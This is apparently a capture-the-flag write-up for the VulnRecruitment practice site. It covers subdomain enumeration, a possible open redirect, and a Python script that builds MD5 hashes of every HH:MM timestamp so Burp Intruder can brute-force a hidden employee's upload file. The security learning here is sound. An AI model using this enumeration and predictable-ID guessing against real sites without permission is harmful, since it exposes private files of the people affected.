


# VulnRecruitment

http://www.vulnrecruitment.co.uk/ - 4 flags to find

Front page


I think i'll start with some subdomain enumeration and then come back to the main app and do content discovery etc.

```
└─$ assetfinder -subs-only vulnrecruitment.co.uk
b38f1-uploads.vulnrecruitment.co.uk
vulnrecruitment.co.uk
vulnrecruitment.co.uk
vulnrecruitment.co.uk
```

OK let's quickly check the subdomain we found



Nice easy one there, flag no.1. Note the "google search" link could be an open re-direct to use later.

```http://b38f1-uploads.vulnrecruitment.co.uk/redirect?url=https://www.google.com```

Whilst I'm looking at subdomain enumeration I might as well check if I get any hits with the wordlist.

And yes looks like admin is also a subdomain



OK let's do what I said and go back and do some content discovery on the main domain first. So I didn't find anything beyond the staff path which is linked on the main page


The view profile buttons link to 

- /staff/1
- /staff/2
- /staff/4

Interesting what happened to 3?


OK disgruntled ex employee perhaps?

What's also strange is how employee images are retrieved

```
GET /staff/2/image?id=0fbbd14791d5032e57cb38013a08c791 HTTP/1.1
Host: www.vulnrecruitment.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.vulnrecruitment.co.uk/staff/2
Cookie: ctfchallenge=xxx
```

The ID is also a bit weird, it's an MD5 hash which crackstation can match to a timestamp string of '11:18'. Is this relevant?

- /staff/1 - 955dc852b26e9375c7b7858b438f80f6 = 03:28
- /staff/2 - 0fbbd14791d5032e57cb38013a08c791 = 11:18
- /staff/4 - 33379393610f7c99f05c85f9f92deaef = 19:33

Let's try changing the ID to one which won't exist

```
GET /staff/2/image?id=xxx HTTP/1.1
Host: www.vulnrecruitment.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.vulnrecruitment.co.uk/staff/2
Cookie: ctfchallenge=xxx
```

Oooo look at that, our previously discovered subdomain domain is mentioned in the response!

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Tue, 07 Jun 2022 14:17:06 GMT
content-type: image/jpeg
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnrecruitment.co.uk
connection: close
Content-Length: 87

404 - Resource (http://b38f1-uploads.vulnrecruitment.co.uk/uploads/2_xxx.jpg) not found
```

So the direct link to Archie's picture would be ```http://b38f1-uploads.vulnrecruitment.co.uk/uploads/2_0fbbd14791d5032e57cb38013a08c791.jpg```

I suspect whoever employee no.3 is, still has stuff in here!

In the meantime I've also done content fuzzing against ```b38f1-uploads.vulnrecruitment.co.uk/FUZZ``` and ```admin.vulnrecruitment.co.uk/FUZZ``` neither of which return us anything we didn't already know about.

I think my next area to look at again is ```b38f1-uploads.vulnrecruitment.co.uk``` as it mentioned the ability to upload content. Perhaps I can do a POST or a PUT.....

And that'll be a no....

```
HTTP/1.1 404 Not Found
server: nginx/1.21.1
date: Tue, 07 Jun 2022 15:21:07 GMT
content-type: text/html; charset=UTF-8
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnrecruitment.co.uk
connection: close
Content-Length: 14

Page Not Found
```

Right can I create an MD5 payload list in the timestamp string range 00:00-23:59? And then request ```http://b38f1-uploads.vulnrecruitment.co.uk/uploads/3_<timestamphash>.jpg```

OK so I was thinking maybe Burp had a from-to payload for time, but it only looks like it has Dates, shame, so python it is. First thing let's check I can recreate the same hexdigest using Python from the MD5. eg

```python
>>> import hashlib
>>> print(hashlib.md5(b"03:28").hexdigest())
955dc852b26e9375c7b7858b438f80f6
```

Yes I can, right now to create the formatted times, so I should be able to create a range for all the minutes in a day eg.

```python
>>> from datetime import datetime, timedelta
>>> (datetime.min + timedelta(minutes=1)).time().strftime('%H:%M').encode()
b'00:01'
```

That's the code needed to create the formatted string, now for a range from 00:00-23:59

```python
>>> from datetime import datetime, timedelta
>>> times = [(datetime.min + timedelta(minutes=i)).time().strftime('%H:%M').encode() for i in range(24*60)]
[b'00:00', b'00:01', b'00:02', b'00:03', b'00:04', ..., b'23:59']
```

Yup that worked OK let's put that all together and create a hashed wordlist

```python
import hashlib
from datetime import datetime, timedelta
times = [hashlib.md5((datetime.min + timedelta(minutes=i)).time().strftime('%H:%M').encode()).hexdigest() for i in range(24*60)]
with open('timehashes.txt', 'w') as wordlist:
    wordlist.write('\n'.join(times))
```

OK perfect that worked. Now to use this in Intruder

YES! I get a hit against ```/uploads/3_d9a39bb5097e8e57d4da9669ea44fd72.jpg```


But who is this mysterious woman? :D

OK perhaps I can extend my attack to a cluster bomb attack to include popular file extensions. Although even with a small list of file extensions that's over 1M requests! Hmmmmmm.......